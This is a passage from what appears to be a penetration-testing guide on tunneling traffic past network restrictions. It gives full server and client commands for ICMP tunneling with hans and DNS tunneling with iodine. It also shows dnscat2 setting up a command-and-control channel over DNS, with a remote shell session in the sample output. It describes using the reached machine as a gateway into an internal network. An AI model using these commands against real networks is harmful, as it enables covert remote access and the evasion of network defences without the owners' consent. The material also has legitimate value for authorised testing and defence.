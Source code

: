`./hans -v -f -s 1.1.1.1 -p P@ssw0rd`

The `-v` flag is for verbosity, the `-f` flag is to run in foreground and the `-s` flag’s value is the server’s ip on the newly created tun interface.

Client side:

`./hans -f -c <server_ip> -p P@ssw0rd -v`

After successful connection the client should be directly visible at 1.1.1.100:

    # ping 1.1.1.100
    PING 1.1.1.100 (1.1.1.100) 56(84) bytes of data.
    64 bytes from 1.1.1.100: icmp_seq=1 ttl=65 time=42.9 ms

Now you can use this machine as gate into the internal network. Use this machine a default gateway or connect to a management interface (ssh/tsh/web shell).

### DNS tunneling

If any WAN traffic is blocked but external host names are resolved then there’s a possibility of tunneling traffic via DNS queries. You need a domain registered for this technique to work. [This manual](http://dev.kryo.se/iodine/wiki/HowtoSetup) might help you with setting up your name server.

#### Iodine

If so happens that you got root access on the server you can try [iodine](http://code.kryo.se/iodine/). It works almost like hans icmp tunneling tool - it creates a pair of tun adapters and tunnels data between them as DNS queries. Server side:

`iodined -f -c -P P@ssw0rd 1.1.1.1 tunneldomain.com`

Client side:

`iodine -f -P P@ssw0rd tunneldomain.com -r`

Successful connection will yield direct client visibility at address 1.1.1.2. Note, that this tunneling technique is quite slow. Your best bet is to use a compressed ssh connection over the resulting connection:

`ssh <user>@1.1.1.2 -C -c blowfish-cbc,arcfour -o CompressionLevel=9 -D 1080`

#### Dnscat2

[Dnscat2](https://github.com/iagox86/dnscat2) establishes C&C channel over recursive DNS queries. This tool doesn’t require root/administrator access (works both on windows and linux). It also supports port forwarding. Server side:

    ruby ./dnscat2.rb tunneldomain.com

Client side:

`./dnscat2 tunneldomain.com`

After you receive a connection of server side, you can view the active sessions with `windows` command:

    dnscat2> windows
    0 :: main [active]
      dns1 :: DNS Driver running on 0.0.0.0:53 domains = tunneldomain.com [*]
      1 :: command session (debian)
      2 :: sh (debian) [*]

